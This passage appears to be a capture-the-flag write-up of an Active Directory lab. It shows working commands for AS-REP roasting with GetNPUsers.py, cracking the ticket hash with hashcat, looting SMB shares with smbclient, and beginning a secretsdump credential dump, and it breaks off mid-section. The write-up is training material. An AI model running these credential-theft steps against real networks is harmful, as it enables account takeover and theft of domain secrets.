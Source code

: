 Output highlights:

- **Domain Name**: THM-AD
- **Domain SID**: S-1-5-21-3591857110-2884097990-301047963

I also discovered two interesting usernames through RID cycling:
- svc-admin
- backup

### Kerberos Pre-Authentication Bruteforcing

Using `GetNPUsers.py` from Impacket, I attempted to get a Kerberos ticket-granting ticket (TGT) for the `svc-admin` user.

```bash
GetNPUsers.py THM-AD/svc-admin -dc-ip 10.10.20.33 -no-pass
```

I received a TGT hash which I cracked using `hashcat`.

```bash
hashcat -m 18200 -a 0 hash.txt passwordlist.txt
```
(get the mode from hashcat documentation)
### Accessing SMB Shares

With the cracked password, I accessed the SMB shares.

```bash
smbclient -L //10.10.20.33 -U svc-admin%password_placeholder
```

Listing and accessing the backup share revealed a potentially valuable file.

```bash
smbclient //10.10.20.33/backup -U svc-admin%password_placeholder
smb: \> ls
```

I found `backup_credentials.txt` and downloaded it.

```bash
smb: \> mget *.*
```

### Decoding Backup Credentials

The file contained a Base64 encoded string which I decoded using CyberChef.

```plaintext
backup@spookysec.local:password_placeholder
```

### Dumping Domain Credentials with SecretsDump

Using the credentials, I attempted to dump domain credentials with `secretsdump.py`.

```
Secretsdump Exploit

Description:
Secretsdump is a tool included in the Impacket library that can be used to extract sensitive data from Windows systems, including password hashes, cached credentials, and other secrets. It leverages the Microsoft Remote Procedure Call (MSRPC) protocol to connect to the target system and retrieve the data.

Attack Vector:
The Secretsdump exploit can be executed remotely or locally, depending on the attacker's access level. It typically requires valid administrative credentials or exploits that grant administrative privileges on the target system.

Exploitation Process:
```